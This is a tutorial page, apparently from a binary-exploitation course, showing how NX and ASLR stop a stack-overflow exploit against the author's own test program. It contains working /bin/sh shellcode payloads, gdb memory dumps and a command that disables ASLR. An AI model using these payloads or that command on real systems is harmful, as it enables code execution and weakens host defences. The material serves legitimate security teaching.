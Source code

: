 # Security techniques

Security techniques were invented to prevent exploitation of the programs. Each of them is aimed at concrete vulnerability. In general, these techniques are just compiler options or OS configuration.

## Non-Executable Stack(NX)

Prevents the attacker from jumping to the shellcode within the stack by disabling execution of the stack. I disabled it before with an option of the compiler: `-z execstack`. Thus, it makes the stack executable or, in other words, it allows you to execute the content of the stack.

Let's try our stack-overflow exploit that we did before.

Firstly, start the exploit without the NX option:
```bash
$ checksec stack-overflow
[*] '/home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$ python3 exploit.py
[+] Starting local process './stack-overflow': pid 6803
[*] Switching to interactive mode
$ w
19:56:08 up 28 min,  1 user,  load average: 0.47, 0.65, 0.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               19:27   28:37   1:25   1.39s xfce4-session
$  
```

Exploit works.

Now, try it with NX enabled:
```bash
$ gcc ../stack-overflow/stack-overflow.c -o stack-overflow-with-nx -fno-stack-protector -no-pie
$ checksec stack-overflow-with-nx
[*] '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$ cp ../stack-overflow/exploit.py stack-overflow-exploit.py
$ python3 stack-overflow-exploit.py
[+] Starting local process './stack-overflow-with-nx': pid 7040
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ w
[*] Process './stack-overflow-with-nx' stopped with exit code -11 (SIGSEGV) (pid 7040)
[*] Got EOF while sending in interactive
```

Okay, you can see that the NX option is enabled as `checksec` said. And exploit is broken. Let's try without script:
```bash
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"'; cat) | ./stack-overflow-with-nx

Segmentation fault (core dumped)
```

Okay, the program just crashed.

In gdb:
```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"')

Program received signal SIGSEGV, Segmentation fault.
0xffffcf36 in ?? ()
gef➤  x/100wx $esp - 0x12a
0xffffcea6:	0xcfc8f7fa	0x923affff	0xcec60804	0xcf00ffff
0xffffceb6:	0x0003ffff	0x92240000	0xd0000804	0xe76cf7ff
0xffffcec6:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffced6:	0xb0e18953	0x4180cd0b	0x41414141	0x41414141
0xffffcee6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf06:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf16:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf26:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf36:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf46:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf56:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf66:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf76:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf86:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf96:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfa6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfb6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfc6:	0x41414141	0xcf364141	0x8000ffff	0x8000f7fa
0xffffcfd6:	0x0000f7fa	0xbee50000	0x0001f7dd	0xd0740000
0xffffcfe6:	0xd07cffff	0xd004ffff	0x8000ffff	0x0000f7fa
0xffffcff6:	0xd0580000	0x0000ffff	0xd0000000	0x0000f7ff
0xffffd006:	0x80000000	0x8000f7fa	0x0000f7fa	0x1c800000
0xffffd016:	0x9a909e20	0x0000dac2	0x00000000	0x00000000
0xffffd026:	0x00010000	0x90c00000	0x00000804	0x7cd40000
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\xc6\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\xc6\xce\xff\xff"')

Program received signal SIGSEGV, Segmentation fault.
0xffffcec6 in ?? ()
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x08049000 0x0804a000 0x00001000 r-x /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804a000 0x0804b000 0x00002000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804b000 0x0804c000 0x00002000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804c000 0x0804d000 0x00003000 rw- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804d000 0x0806f000 0x00000000 rw- [heap]
0xf7dbd000 0xf7dda000 0x00000000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7dda000 0xf7f35000 0x0001d000 r-x /lib/i386-linux-gnu/libc-2.31.so
0xf7f35000 0xf7fa5000 0x00178000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa5000 0xf7fa6000 0x001e8000 --- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa6000 0xf7fa8000 0x001e8000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa8000 0xf7faa000 0x001ea000 rw- /lib/i386-linux-gnu/libc-2.31.so
0xf7faa000 0xf7fac000 0x00000000 rw-
0xf7fcb000 0xf7fcd000 0x00000000 rw-
0xf7fcd000 0xf7fd0000 0x00000000 r-- [vvar]
0xf7fd0000 0xf7fd1000 0x00000000 r-x [vdso]
0xf7fd1000 0xf7fd2000 0x00000000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7fd2000 0xf7ff0000 0x00001000 r-x /lib/i386-linux-gnu/ld-2.31.so
0xf7ff0000 0xf7ffb000 0x0001f000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 0x0002a000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 0x0002b000 rw- /lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 0x00000000 rw- [stack]
```

Even, if you will jump to the right address the program will not execute it, because you can see that the stack hasn't an X flag.

But, it doesn't mean that you can't exploit it now. You can apply two exploitation techniques here: [Return to libc attack(ret2libc)](../bypass-security-techniques/bypass-security-techniques.md#return-to-libc-attack "https://github.com/whatsyourask/basics-of-pwn/blob/main/content/bypass-security-techniques/bypass-security-techniques.md#return-to-libc-attack") and `Return-Oriented programming(ROP)`.


## Address Space Layout Randomization(ASLR)

Prevents the attacker from jumping to the shellcode wherever by randomize the address space of a process. So, if you want to jump to concrete address, for example, `0xffffcfdd`, you can't do it directly, because every time you execute the program, its address space changes. I disabled it before with `echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`. Also, it makes difficult to use `ret2libc attack`, because in this attack, you need to locate needed functions and with ASLR they will have random addresses.  

Let's again try stack-overflow exploit.

```bash
$ sudo cat /proc/sys/kernel/randomize_va_space              
2
```

2 indicates that ASLR is enabled.

```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-for-aslr < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"')

Program received signal SIGILL, Illegal instruction.
0xffffcfd6 in ?? ()
gef➤  x/100wx $esp - 0x10e
0xffffcec6:	0x0003ffff	0x92240000	0xd0000804	0xd76cf7ff
0xffffced6:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffcee6:	0xb0e18953	0x4180cd0b	0x41414141	0x41414141
0xffffcef6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf06:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf16:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf26:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf36:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf46:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf56:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf66:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf76:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf86:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf96:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfa6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfb6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfc6:	0x41414141	0x41414141	0x41414141	0xcfdc4141
0xffffcfd6:	0xce16ffff	0x622fffff	0x70006e69	0x7000f7fa
0xffffcfe6:	0x0000f7fa	0xaee50000	0x0001f7dd	0xd0840000
0xffffcff6:	0xd08cffff	0xd014ffff	0x7000ffff	0x0000f7fa
0xffffd006:	0xd0680000	0x0000ffff	0xd0000000	0x0000f7ff
0xffffd016:	0x70000000	0x7000f7fa	0x0000f7fa	0x93dd0000
0xffffd026:	0x35cd4860	0x00000ca2	0x00000000	0x00000000
0xffffd036:	0x00010000	0x90c00000	0x00000804	0x7cd40000
0xffffd046:	0x2410f7fe	0xc000f7fe	0x00010804	0x90c00000
gef➤  
```

Okay, try to change the return address:
```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xd6\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-for-aslr < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xd6\xce\xff\xff"')
process 58805 is executing new program: /bin/dash
[Inferior 1 (process 58805) exited normally]
gef➤  
```

Now, try it outside gdb with ltrace to see the addresses.
```bash
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"'; cat) | ltrace ./stack-overflow-for-aslr
__libc_start_main(0x8049243, 1, 0xff9226f4, 0x8049270 <unfinished ...>
gets(0xff922546, 0xff922580, 3, 0x8049224)                         = 0xff922546
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
w
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"'; cat) | ltrace ./stack-overflow-for-aslr
__libc_start_main(0x8049243, 1, 0xffc80924, 0x8049270 <unfinished ...>
gets(0xffc80776, 0xffc807b0, 3, 0x8049224)                         = 0xffc80776
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
w
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"'; cat) | ltrace ./stack-overflow-for-aslr w
__libc_start_main(0x8049243, 2, 0xffaa87a4, 0x8049270 <unfinished ...>
gets(0xffaa85f6, 0xffaa8630, 3, 0x8049224)                         = 0xffaa85f6
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
w
```

Each time I run the program ltrace showed different address. python script with ret2libc attack won't work too.

